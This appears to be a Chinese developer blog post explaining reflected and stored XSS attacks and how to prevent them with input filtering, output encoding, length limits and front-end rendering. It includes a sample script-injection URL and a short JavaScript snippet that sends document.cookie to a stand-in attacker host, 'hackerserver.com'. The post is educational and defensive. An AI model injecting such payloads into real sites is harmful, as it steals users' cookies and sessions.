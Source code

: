 ```yaml
---
layout: post
title: 你们的系统真的安全吗？你们系统是不是也有这种诡异的情况呢？
tagline: by 懿
categories: Web安全
tags:
    - 懿
---
```


这个文章来源灵感是公司的项目在安全检查的时候，发现了很多 SQL 注入的一些问题还有一些 XSS 攻击问题，SQL 注入我们都是比较了解的，那么什么是 XSS 攻击呢？测试反馈给我的时候我是一脸懵逼呀，现在我们就来说一下什么是 XSS 攻击，以及我们怎么防止它的出现。
<!--more-->

## 什么是XSS攻击

我当时听到 XSS 攻击的时候是一脸懵，但是，程序员咱们不就是就是解决问题的嘛，于是打开 Chrome ，百度！

百度百科给出的解释是这样的：

XSS 攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是 JavaScript ，但实际上也可以包括 Java 、 VBScript 、ActiveX 、 Flash  或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和 cookie 等各种内容。


XSS攻击是Web攻击中最常见的攻击方法之一，它是通过对网页注入可执行代码且成功地被浏览器 执行，达到攻击的目的，形成了一次有效XSS攻击，一旦攻击成功，它可以获取用户的联系人列 表，然后向联系人发送虚假诈骗信息，可以删除用户的日志等等，有时候还和其他攻击方式同时实 施比如SQL注入攻击服务器和数据库、Click劫持、相对链接劫持等实施钓鱼，它带来的危害是巨大的，是web安全的头号大敌。

## XSS攻击类型

1. XSS 反射型攻击，恶意代码并没有保存在目标网站，通过引诱用户点击一个链接到目标网站的恶意链接来实施攻击的。

其实反射型 XSS ,也叫非持久型 XSS ，是指发生请求时，XSS 代码出现在请求URL中，作为参数提交到服务器，服务器解析并响应。响应结果中包含 XSS 代码，最后浏览器解析并执行。从概念上可以看出，反射型 XSS 代码是首先出现在URL中的，然后需要服务端解析，最后需要浏览器解析之后 XSS 代码才能够攻击。

我们看一下 XSS 攻击他是怎么使用 URL 来进行攻击的。

具体流程：

- 1给2发送一个恶意构造了Web的URL。
- 2点击并查看了这个URL。
- 恶意页面中的JavaScript打开一个具有漏洞的HTML页面并将其安装在2电脑上。
- 具有漏洞的HTML页面包含了在2电脑本地域执行的JavaScript。
- 1的恶意脚本可以在2的电脑上执行2所持有的权限下的命令。

举个例子来说就像是这样的，``` http://localhost:8080/helloController/search?name=<script>alert("hey!")</script>```


2. XSS存储型攻击，恶意代码被保存到目标网站的服务器中，这种攻击具有较强的稳定性和持久性，比较常见场景是在博客，论坛等社交网站上，但OA系统，和CRM系统上也能看到它身影，比如：某CRM系统的客户投诉功能上存在XSS存储型漏洞，黑客提交了恶意攻击代码，当系统管理员查看投诉信息时恶意代码执行，窃取了客户的资料，然而管理员毫不知情，这就是典型的XSS存储型攻击。

而 XSS 存储型攻击，也叫持久型 XSS ，主要是将 XSS 代码发送到服务器（不管是数据库、内存还是文件系统等。），然后在下次请求页面的时候就不用带上 XSS 代码了。最典型的就是留言板 XSS。用户提交了一条包含 XSS 代码的留言到数据库。当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来。浏览器发现有 XSS 代码，就当做正常的HTML和JS解析执行。XSS 攻击就发生了。

这种存储型攻击一般就会用来窃取 Cookie，token，账号和密码这样的数据，

就比如说，我们在页面上写内容的时候，A发了一篇文字，B回复的应该是文字才对，这时候B发送了一段文字，并且在内容里面嵌入了JS的代码，这时候B的JS的代码就会执行，比如在里面窃取你的Cookie等操作，这些都是有可能存在的。

还有的就是有一些网站，在本应该是图片的地方他加上了Src,在你无意中惦记图片的时候，就直接跳转到某个网站下，这些属于其实也是属于XSS攻击的。

就比如说他要获取你的Cookie：
```
var i=document.createElement("img")
document.body.appendChild(i)
i.src = "http://www.hackerserver.com/?c=" + document.cookie

```
就再图片的后面给你加上了这个获取你Cookie的方法，然后你在点击到这个链接的时候，就会把Cookie的信息带出来了。


## XSS攻击需要有哪些条件

1. 需要向web页面注入恶意代码；

2. 这些恶意代码能够被浏览器成功的执行。

也就是说，一旦满足这条件的时候，就会出现XSS攻击这种情况，那么，你的系统安全性将会受到严重的破坏。

## XSS原理

其实XSS攻击最主要发生的地方就是我们的HTML中，因为HTML是一种超文本标记语言，通过将一些字符特殊地对待来区别文本和标记，例如，小于符号（<）被看作是HTML标签的开始，```<title>与</title> ```之间的字符是页面的标题等等。当动态页面中插入的内容含有这些特殊字符（如<）时，用户浏览器会将其误认为是插入了HTML标签，当这些HTML标签引入了一段JavaScript脚本时，这些脚本程序就将会在用户浏览器中执行。所以，当这些特殊字符不能被动态页面检查或检查出现失误时，就将会产生XSS漏洞。

我们说完到底什么是XSS攻击之后，我们该说一下到底应该怎么去防范了。

## 如何防止XSS攻击

1.入参字符过滤

比如说把输入的一些不合法的东西都过滤掉，从而保证安全性。如移除用户提交的的DOM属性如onerror，移除用户上传的Style节点，`<iframe>, <script>，<a>`节点等

2.出参进行编码

像一些常见的符号，如<>在输出的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。例如：对<>做编码如："<"用:"&lt;",">"用:"&gt;"来代替。

3.入参长度限制

xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。

4.纯前端渲染

纯前端渲染的过程：

(1).浏览器先加载一个静态 HTML，此 HTML 中不包含任何跟业务相关的数据。

(2).然后浏览器执行 HTML 中的 JavaScript。

(3).JavaScript 通过 Ajax 加载业务数据，调用 DOM API 更新到页面上。

在纯前端渲染中，我们会明确的告诉浏览器：下面要设置的内容是文本（.innerText），还是属性（.setAttribute），还是样式（.style）等等。浏览器不会被轻易的被欺骗，执行预期外的代码了。

但纯前端渲染还需注意避免 DOM 型 XSS 漏洞（例如 onload 事件和 href 中的 javascript:xxx 等，请参考下文”预防 DOM 型 XSS 攻击“部分）。

在很多内部、管理系统中，采用纯前端渲染是非常合适的。但对于性能要求高，或有 SEO 需求的页面，我们仍然要面对拼接 HTML 的问题。

以上就是我想给大家讲述的内容了，如果你们公司的系统还没有做过XSS漏洞检测，那么你就可以适当的把自己的代码修改一下了，毕竟我们不是一点JS代码都不写的，你说呢？

我是懿，一个正在被打击还在努力前进的码农。欢迎大家关注我们的公众号，加入我们的知识星球，我们在知识星球中等着你的加入。
